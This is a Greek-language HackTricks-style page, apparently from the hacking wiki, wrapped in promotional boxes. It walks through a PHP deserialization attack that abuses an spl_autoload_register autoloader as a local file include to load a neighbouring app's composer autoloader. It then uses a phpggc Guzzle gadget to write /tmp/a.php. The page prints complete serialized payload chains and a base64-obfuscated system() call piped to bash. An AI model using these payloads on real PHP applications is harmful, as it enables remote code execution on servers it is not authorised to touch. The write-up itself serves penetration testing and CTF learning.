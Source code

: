 # PHP - Αποσυνεριακοποίηση + Φόρτωση αυτόματων κλάσεων

<details>

<summary><strong>Μάθετε το χάκινγκ του AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Άλλοι τρόποι υποστήριξης του HackTricks:

* Εάν θέλετε να δείτε την **εταιρεία σας να διαφημίζεται στο HackTricks** ή να **κατεβάσετε το HackTricks σε μορφή PDF** ελέγξτε τα [**ΣΧΕΔΙΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ανακαλύψτε [**την Οικογένεια PEASS**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Εγγραφείτε στη** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στη [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Μοιραστείτε τα χάκινγκ τρικς σας υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια του github.

</details>

Πρώτα, θα πρέπει να ελέγξετε τι είναι οι [**Αυτόματες Φόρτωσης Κλάσεων**](https://www.php.net/manual/en/language.oop5.autoload.php).

## Αποσυνεριακοποίηση PHP + spl\_autoload\_register + LFI/Gadget

Βρισκόμαστε σε μια κατάσταση όπου βρήκαμε μια **αποσυνεριακοποίηση PHP σε μια web εφαρμογή** χωρίς κάποια ευπάθεια σε βιβλιοθήκες μέσα στο **`phpggc`**. Ωστόσο, στον ίδιο container υπήρχε μια **διαφορετική web εφαρμογή με ευπάθειες σε βιβλιοθήκες**. Συνεπώς, ο στόχος ήταν να **φορτώσουμε τον φορτωτή της άλλης web εφαρμογής** και να τον καταχραστούμε για να **φορτώσουμε ένα gadget που θα εκμεταλλευτεί αυτήν τη βιβλιοθήκη με ένα gadget** από την εφαρμογή που είναι ευπάθης στην αποσυνεριακοποίηση.

Βήματα:

* Έχετε βρει μια **αποσυνεριακοποίηση** και δεν υπάρχει **κανένα gadget** στον τρέχοντα κώδικα της εφαρμογής
* Μπορείτε να καταχραστείτε μια συνάρτηση **`spl_autoload_register`** όπως η παρακάτω για να **φορτώσετε οποιοδήποτε τοπικό αρχείο με κατάληξη `.php`**
* Για αυτό χρησιμοποιείτε μια αποσυνεριακοποίηση όπου το όνομα της κλάσης θα βρίσκεται μέσα στη μεταβλητή **`$name`**. Δεν μπορείτε να χρησιμοποιήσετε "/" ή "." στο όνομα μιας κλάσης σε ένα αποσυνεριακοποιημένο αντικείμενο, αλλά ο **κώδικας** αντικαθιστά τις **κάτω παύλες** ("\_") **με κάθετους** ("/"). Έτσι, ένα όνομα κλάσης όπως `tmp_passwd` θα μετατραπεί σε `/tmp/passwd.php` και ο κώδικας θα προσπαθήσει να το φορτώσει.\
Ένα παράδειγμα gadget θα είναι: **`O:10:"tmp_passwd":0:{}`**
```php
spl_autoload_register(function ($name) {

if (preg_match('/Controller$/', $name)) {
$name = "controllers/${name}";
} elseif (preg_match('/Model$/', $name)) {
$name = "models/${name}";
} elseif (preg_match('/_/', $name)) {
$name = preg_replace('/_/', '/', $name);
}

$filename = "/${name}.php";

if (file_exists($filename)) {
require $filename;
}
elseif (file_exists(__DIR__ . $filename)) {
require __DIR__ . $filename;
}
});
```
{% hint style="success" %}
Εάν έχετε μια **αποστολή αρχείου** και μπορείτε να ανεβάσετε ένα αρχείο με **`.php` επέκταση**, μπορείτε να **καταχραστείτε απευθείας αυτή τη λειτουργία** και να έχετε ήδη RCE.
{% endhint %}

Στην περίπτωσή μου, δεν είχα κάτι τέτοιο, αλλά υπήρχε μέσα στο **ίδιο container** μια άλλη ιστοσελίδα του composer με μια **ευπάθεια σε ένα `phpggc` gadget**.

* Για να φορτώσετε αυτήν την άλλη βιβλιοθήκη, πρέπει πρώτα να **φορτώσετε τον φορτωτή του composer της άλλης ιστοσελίδας** (επειδή ο τρέχων εφαρμογής δεν θα έχει πρόσβαση στις βιβλιοθήκες της άλλης). **Γνωρίζοντας τη διαδρομή της εφαρμογής**, μπορείτε να το επιτύχετε πολύ εύκολα με: **`O:28:"www_frontend_vendor_autoload":0:{}`** (Στην περίπτωσή μου, ο φορτωτής του composer ήταν στο `/www/frontend/vendor/autoload.php`)
* Τώρα, μπορείτε να **φορτώσετε** τον **φορτωτή της άλλης εφαρμογής**, οπότε είναι καιρός να **`δημιουργήσετε το phpgcc`** **payload** που θα χρησιμοποιήσετε. Στην περίπτωσή μου, χρησιμοποίησα **`Guzzle/FW1`**, το οποίο μου επέτρεψε να **γράψω οποιοδήποτε αρχείο μέσα στο σύστημα αρχείων**.
* ΣΗΜΕΙΩΣΗ: Το **δημιουργημένο gadget δεν λειτουργούσε**, για να λειτουργήσει έπρεπε να **τροποποιήσω** αυτό το payload **`chain.php`** του phpggc και να ορίσω **όλα τα γνωρίσματα** των κλάσεων **από ιδιωτικά σε δημόσια**. Διαφορετικά, μετά την αποσειριοποίηση του συμβολοσειριακού αντικειμένου, τα γνωρίσματα των δημιουργημένων αντικειμένων δεν είχαν καμία τιμή.
* Τώρα έχουμε τον τρόπο να **φορτώσουμε τον φορτωτή της άλλης εφαρμογής** και να έχουμε ένα **phpggc payload που λειτουργεί**, αλλά πρέπει να **κάνουμε αυτό στον ίδιο αίτημα για να φορτωθεί ο φορτωτής όταν χρησιμοποιείται το gadget**. Για αυτό, έστειλα έναν σειριοποιημένο πίνακα με τα δύο αντικείμενα όπως:
* Μπορείτε να δείτε **πρώτα τον φορτωτή να φορτώνεται και μετά το payload**

{% code overflow="wrap" %}
```php
a:2:{s:5:"Extra";O:28:"www_frontend_vendor_autoload":0:{}s:6:"Extra2";O:31:"GuzzleHttp\Cookie\FileCookieJar":4:{s:7:"cookies";a:1:{i:0;O:27:"GuzzleHttp\Cookie\SetCookie":1:{s:4:"data";a:3:{s:7:"Expires";i:1;s:7:"Discard";b:0;s:5:"Value";s:56:"<?php system('echo L3JlYWRmbGFn | base64 -d | bash'); ?>";}}}s:10:"strictMode";N;s:8:"filename";s:10:"/tmp/a.php";s:19:"storeSessionCookies";b:1;}}
```
{% endcode %}

* Τώρα, μπορούμε να **δημιουργήσουμε και να γράψουμε ένα αρχείο**, ωστόσο, ο χρήστης **δεν μπορεί να γράψει σε κανέναν φάκελο μέσα στον διακομιστή ιστού**. Έτσι, όπως μπορείτε να δείτε στο payload, το PHP καλεί την **`system`** με κάποιο **base64** που δημιουργείται στο **`/tmp/a.php`**. Στη συνέχεια, μπορούμε να **επαναχρησιμοποιήσουμε τον πρώτο τύπο payload** που χρησιμοποιήσαμε ως LFI για να φορτώσουμε τον φορτωτή του composer της άλλης webapp **για να φορτώσουμε το αρχείο `/tmp/a.php`** που δημιουργήθηκε. Απλά προσθέστε το στο gadget αποσειριοποίησης:&#x20;

{% code overflow="wrap" %}
```php
a:3:{s:5:"Extra";O:28:"www_frontend_vendor_autoload":0:{}s:6:"Extra2";O:31:"GuzzleHttp\Cookie\FileCookieJar":4:{s:7:"cookies";a:1:{i:0;O:27:"GuzzleHttp\Cookie\SetCookie":1:{s:4:"data";a:3:{s:7:"Expires";i:1;s:7:"Discard";b:0;s:5:"Value";s:56:"<?php system('echo L3JlYWRmbGFn | base64 -d | bash'); ?>";}}}s:10:"strictMode";N;s:8:"filename";s:10:"/tmp/a.php";s:19:"storeSessionCookies";b:1;}s:6:"Extra3";O:5:"tmp_a":0:{}}
```
{% endcode %}

**Περίληψη του payload**

* **Φόρτωση του composer autoload** ενός διαφορετικού webapp στον ίδιο container
* **Φόρτωση ενός phpggc gadget** για κατάχρηση μιας βιβλιοθήκης από το άλλο webapp (το αρχικό webapp που είναι ευάλωτο στην αποσειριοποίηση δεν είχε κανένα gadget στις βιβλιοθήκες του)
* Το gadget θα **δημιουργήσει ένα αρχείο με ένα PHP payload** σε αυτό στη διαδρομή /tmp/a.php με κακόβουλες εντολές (ο χρήστης του webapp δεν μπορεί να γράψει σε κανέναν φάκελο οποιουδήποτε webapp)
* Το τελικό μέρος του payload μας θα **φορτώσει το δημιουργημένο αρχείο php** που θα εκτελέσει εντολές

Χρειάστηκε να **καλέσω αυτήν την αποσειριοποίηση δύο φορές**. Στις δοκιμές μου, η πρώτη φορά δημιουργήθηκε το αρχείο `/tmp/a.php` αλλά δεν φορτώθηκε, και η δεύτερη φορά φορτώθηκε σωστά.

<details>

<summary><strong>Μάθετε το hacking του AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Άλλοι τρόποι για να υποστηρίξετε το HackTricks:

* Εάν θέλετε να δείτε την **εταιρεία σας να διαφημίζεται στο HackTricks** ή να **κατεβάσετε το HackTricks σε μορφή PDF** ελέγξτε τα [**ΣΧΕΔΙΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ανακαλύψτε [**The PEASS Family**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Μοιραστείτε τα hacking tricks σας υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
